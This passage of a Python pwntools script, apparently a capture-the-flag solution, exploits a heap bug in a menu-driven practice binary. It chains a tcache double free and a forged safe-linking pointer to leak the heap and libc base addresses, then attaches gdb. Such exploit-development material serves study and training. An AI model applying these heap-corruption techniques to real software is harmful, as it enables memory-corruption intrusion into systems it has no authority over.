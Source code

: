 ```python
    return dec

def safe_link(pos, ptr):
    return (pos >> 12) ^ ptr

def add(idx, data):
    cmd(1)
    p.sendline(str(idx).encode())
    p.sendline(data)

def delete(idx):
    cmd(2)
    p.sendline(str(idx).encode())

add(0, "double free")

add(1, b'victim')

for i in range(2,6):
    add(i, b'data')

add(6, b'guard chunk') # to avoid consolidating with top chunk

delete(0)

add(0, p64(0) * 2) #overwrite tcache_entry.next & key

delete(0)#double free

cmd(3)

p.recvuntil(b'->')
ptr = u64(p.recvline()[:-1].ljust(8, b'\x00'))

print(hex(ptr))
print(hex(decrypt_safe_linking(ptr)))
heap_base = decrypt_safe_linking(ptr) - 0x2a0
print(hex(heap_base))

add(0, p64(safe_link(heap_base + 0x2a0, heap_base + 0x2a0 + 0x10)))

add(7, b'dummy')

add(8, p64(0) + p64(0xa1))

# octuple free

delete(1)
for i in range(7):
    add(1, b'A'*0xf)
    delete(1)

cmd(3)

p.recvuntil(b'->')
libc_base = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x219ce0

print(hex(libc_base))

gdb.attach(p)

p.interactive()
```